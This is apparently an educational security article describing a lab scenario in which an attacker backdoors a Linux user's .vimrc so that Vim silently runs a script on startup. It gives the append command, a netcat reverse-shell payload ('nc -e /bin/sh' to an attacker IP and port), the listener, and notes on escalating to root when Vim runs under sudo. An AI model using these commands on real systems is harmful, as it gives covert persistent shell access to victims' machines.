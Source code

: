 # Backdoor Via Vim
* * *

The VIM editor needs no introduction; it is a well-known and widely used command-line text editor that comes pre-installed on most Unix and Linux operating systems. In many Linux setups, user-specific VIM configuration settings are stored in the user's home directory within the `.vimrc` file. This file, which is automatically loaded when Vim starts, accepts VIM-specific scripting commands that are usually used to enable users to tailor their editing environment to their preferences.

This interesting setup presents an opportunity for attackers. By manipulating the `.vimrc` file, one can execute unintended actions during a user's VIM session without the user's knowledge or permission, especially if VIM operates within an unrestricted environment.

To get a feel for that, let's experiment. To execute a command within the VIM environment, you need to precede any shell command with a colon and an exclamation mark. Execute the following command within VIM to get the user ID (or username):

```sh
:!echo $UID
# OR
:!echo $USER
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/UID.png)

You see, once you hit enter, the user ID is printed on the screen. This is because VIM has access to the shell environment's variables.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/1000.png)

Great, let's get back to the `.vimrc` file. We can inject any commands into the `.vimrc` file, and once the current user starts Vim, these commands are executed in the background. One particularly interesting command is the source command, used to execute commands from a script file in the current shell session.

We can illustrate this with an example scenario: suppose an attacker, using a Kali Linux machine, gains access to a victim machine running Ubuntu. The attacker wants to establish a backdoor on the victim machine, such as creating a netcat reverse shell connection to the attacker's machine.

First, on the victim machine, the attacker creates or modifies the `.vimrc` file by appending the following line:

```sh
echo ':silent !source /home/msbit/Labs/vimHacking/ncReverseSh.sh &' >> ~/.vimrc
```

Let's analyze this command: Firstly, the `:silent` suppresses any debug output that would typically be displayed to the user when Vim runs. Then, the `source` command, preceded by an exclamation mark to indicate that this is a shell command, loads and executes the script ncReverseSh.sh, followed by the `&` to execute the command in the background."

Now, the attacker need to populate the script `ncReverseSh.sh` with the payload:

```sh
#!/bin/bash
nc -e /bin/sh 192.168.171.1 7777 &
```

This is a simple script that invokes the nc command with the `-e` switch, specifying the program (`/bin/sh`) to execute upon connection establishment, followed by the attacker's IP and listening port. Again, the & ensures the command runs in the background

Okay, let's give it a shot. Start a netcat listener on the attacker machine on port 7777:

```sh
nc -lnvp 7777
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/reverseShell.png)

You should know that the reverse shell obtained doesn't necessarily grant access beyond that of the current user. However, if the victim runs VIM with sudo, the attacker might get a root shell. However, this is only half the story; it depends on the Linux distribution. For example, in systems like Ubuntu and Red Hat, VIM uses the current user's `.vimrc` configuration file even within a sudo context. Therefore, if the user invokes VIM via sudo, our sourced script will execute as root. On the other hand, in distributions like Debian, VIM defaults to the root user's configuration when invoked with sudo, without using the current user's settings.

One more thing: another idea is to check the sudo permissions granted to the current user. Sometimes, a regular user may be authorized to run only specific applications with sudo privileges:

```sh
sudo -l

(root) NOPASSWD: /usr/bin/vim /opt/whatever.conf
```

In this example, the configuration allows the root user to execute `/usr/bin/vim` on `/opt/whatever.conf` without requiring a password.

In conclusion, we have seen how an attacker can exploit a legitimate program to achieve malicious goals.

Happy Learning... <br>
Mahmoud Jadaan

### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
